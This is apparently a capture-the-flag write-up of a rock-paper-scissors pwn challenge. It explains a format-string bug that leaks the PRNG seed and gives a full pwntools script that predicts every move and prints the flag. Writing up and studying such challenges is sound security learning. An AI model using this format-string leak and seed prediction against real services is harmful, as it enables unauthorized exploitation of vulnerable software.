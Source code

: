 ```yaml
---
author: micronoyau
layout: post
date: 2023-09-25 12:00:00 +0200
excerpt_separator: <!--more-->
---
```


# Rock-Paper-Scissors

In this challenge, we are given a rock-paper-scissors binary and must win 50 times in a row to get the flag.

## Disassembly and analysis

First, let's analyze this game with ghidra. The main function consists at its core of the following :

```
fd = open("/dev/urandom",0);
if (fd < 0) {
  printf("Opening /dev/urandom failed");
  exit(1);
}
read(fd,&seed,4);
close(fd);
srand(seed);
printf("Enter your name: ");
fgets(name,0x14,stdin);
printf("Hi ");
printf(name);
puts("Let\'s play some Rock Paper Scissors!");
puts("If you beat me 50 times in a row I\'ll give you a special prize.");
for (i = 0; i < 0x32; i = i + 1) {
  res = rps();
  if (res != '\x01') {
    puts("You didn\'t beat me enough times. Too bad!");
    exit(1);
  }
}
win();
```

The vulnerability is immediatly identified as a format string. We could try to rewrite the return address of rps to redirect to win, but a quick checksec shows us its not going to be easy because this binary is position-independent :
```
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```
Moreover, the buffer for `name` is only 20 bytes long so we need to find an efficient payload. Lets look at the `rps` function :
```
undefined8 rps(void)
{
  int r;
  undefined8 uVar1;
  long in_FS_OFFSET;
  char user_choice;
  char rand_choice;
  int local_18;
  undefined2 rp;
  undefined s;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  user_choice = '\0';
  rp = 0x7072;
  s = 0x73;
  r = rand();
  rand_choice = *(char *)((long)&rp + (long)(r % 3));
  puts("Let\'s play!");
  do {
    if (((user_choice == 'r') || (user_choice == 'p')) || (user_choice == 's')) {
      if ((((user_choice == 'r') && (rand_choice == 's')) ||
          ((user_choice == 'p' && (rand_choice == 'r')))) ||
         ((user_choice == 's' && (rand_choice == 'p')))) {
        puts("You win!");
        uVar1 = 1;
      }
      else {
        puts("You lost.");
        uVar1 = 0;
      }
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return uVar1;
    }
    printf("Enter your choice (r/p/s): ");
    __isoc99_scanf(&DAT_0010203b,&user_choice);
    do {
      local_18 = getchar();
      if (local_18 == 10) break;
    } while (local_18 != -1);
  } while( true );
}
```

The interesting part is the random choice selection : basically, we could rewrite it
```
rps = "rps";
r = rand();
rand_choice = rps[r%3];
```

## Pseudorandom number generators

In C, the `rand` function produces pseudo-random outputs from a chosen value called seed. The pseudorandom generator is initialized by calling the function `srand` at the beginning of function `main`, and the seed is chosen by reading `/dev/urandom` which produces pseudorandom numbers on linux devices. If we could somehow know the seed, we could then predict the entire rock-paper-scissors sequence. Let's use the format string vulnerability for this !

## Exploiting the format string bug

We find that the seed can be accessed as the 9th word on the stack when calling `printf(name)`. We then automate the winning process using pwntools et voilà !

```
from ctypes import CDLL
from pwn import *

conn = remote('vsc.tf', 3094)

print(conn.recvuntil(b": "))
conn.sendline(b'%9$08x')
seed = int(str(conn.recvline()[3:-1])[2:-1], base=16)

print(conn.recvline())
print(conn.recvline())

libc = CDLL("libc.so.6")
libc.srand(seed)

choices = "rps"

for i in range(50):
    print(conn.recvline())
    print(conn.recvuntil(b': '))
    r = choices[libc.rand()%3]
    if r == 'r':
        conn.sendline(b'p')
    elif r == 'p':
        conn.sendline(b's')
    else:
        conn.sendline(b'r')
    print(conn.recvline())

print(conn.recv())
```

The result is
```
[micronoyau@pwnixos:~/Documents/vsctf/RPS]$ python res.py 
[+] Opening connection to vsc.tf on port 3094: Done
b'Enter your name: '
b"Let's play some Rock Paper Scissors!\n"
b"If you beat me 50 times in a row I'll give you a special prize.\n"
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
[...]
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b'vsctf{Wh4t_da_h3ck_br0_gu355_g0d_kn0ws_4ll_my_m0v3s_:(((}\n\n'
[*] Closed connection to vsc.tf port 3094
```
Got the flag :)
